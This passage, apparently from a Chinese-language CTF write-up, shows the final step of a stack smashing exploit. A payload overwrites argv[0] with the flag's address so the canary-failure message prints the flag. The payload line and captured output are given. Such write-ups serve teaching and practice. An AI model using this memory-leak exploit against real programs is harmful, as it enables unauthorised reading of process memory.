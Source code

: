 构造以下 payload，第三次利用栈溢出覆盖 argv[0] 为 flag 的内存地址，从而可读取内存中的 flag。
```python
payload2 = 'A' * 0x128 + p64(stack_addr - 0x168)
```
最终获取 flag 如下：
```python
[DEBUG] Received 0x9b bytes:
    'You should take more effort to get six sence, and one more challenge!!\n'
    '*** stack smashing detected ***: flag{43861991f7e943090e257863eec75961}\n'
    ' terminated\n'
You should take more effort to get six sence, and one more challenge!!
*** stack smashing detected ***: flag{43861991f7e943090e257863eec75961}
 terminated
```
____
References:   
[1] [浅析ROP之Stack Smash](https://www.anquanke.com/post/id/161142#h2-0)   
[2] [Environ](http://tacxingxing.com/2017/12/16/environ/)
